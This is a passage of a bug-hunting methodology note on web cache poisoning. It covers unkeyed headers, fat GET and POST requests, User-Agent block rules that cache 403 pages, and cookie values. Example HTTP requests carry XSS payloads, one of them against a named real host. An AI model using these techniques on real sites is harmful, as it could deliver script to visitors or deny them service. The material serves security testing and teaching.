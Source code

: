 	- **==x_forwarded_host==**: although uncommon -because dropped by default on some servers- the use of underscores in headers complies with RFC standards and sometimes allows the protections put in place to be completely bypassed.
	- **==x-forwarded-SSL==**: overwrite certain pages with a response saying 'Contradictory scheme headers'.
	- **==Transfer-Encoding==**: to overwrite arbitrary pages.
- **Method Exploitation**:
	- **==Fat GET==**: Check for websites that uses `GET` request with bodies referred to as **fat GET** request, and check if the you can alter the response with it. In simple words: If the application lets users pass parameters in the body of `GET` requests, but does not include them in the cache key and if you can alter the response with the unkeyed body in any manner then you have a **fat GET CP** issue.
		```
		GET /js/geolocate.js?callback=setCountryCookie HTTP/2
		Host: redacted.com

		callback=alert(1)
		```
	- **==POST request CP==**: Another way to hide parameters from the cache key is simply to send a POST request; certain peculiar systems don't bother including the request method in the cache key:
		```
		POST /view/o2o/shop HTTP/1.1  
		Host: alijk.m.taobao.com  
		  
		_wvUserWkWebView=a</script><svg onload='alert%26lpar;1%26rpar;'/data-  
  
		HTTP/1.1 200 OK  
		…  
		"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
		```
		```
		GET /view/o2o/shop HTTP/1.1  
		Host: alijk.m.taobao.com  
  
		HTTP/1.1 200 OK  
		…  
		"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
		```
		
		Aaron Costello independently discovered this technique around the same time as me - I recommend checking out [his writeup](https://enumerated.wordpress.com/2020/08/05/the-case-of-the-missing-cache-keys/) on the topic for more examples.
- **User Agent Rules Exploitation**:
	- Due to the high amount of traffic tools like **FFUF** or **Nuclei** generate, some developers decided to block requests matching their user-agents. Ironically, these tweaks can introduce unwanted cache poisoning DoS opportunities if the `403 Forbidden` page is cacheable.
		```
		GET /index.html HTTP/1.1
		Host: redacted.com
		User-Agent: FFUF

		HTTP/1.1 403 Forbidden
		X-Check-Cacheable: YES
		```
	- `User-Agent` using the venerable ==Internet Explorer 9== can trigger the cached page with a 'Please update your browser' response.
- **Cookie Header Values Exploitation**: 
	- **==Unkeyed Lang Pref==**: If a cookie indicates the user's preferred language, which is then used to load the corresponding version of the page, if it is unkeyed then it can be used to poison the cache that serve the pages in different language. For example:
		```
		GET /blog/post.php?cb=1 HTTP/1.1 
		Host: innocent-website.com 
		Cookie: language=pl; 
		```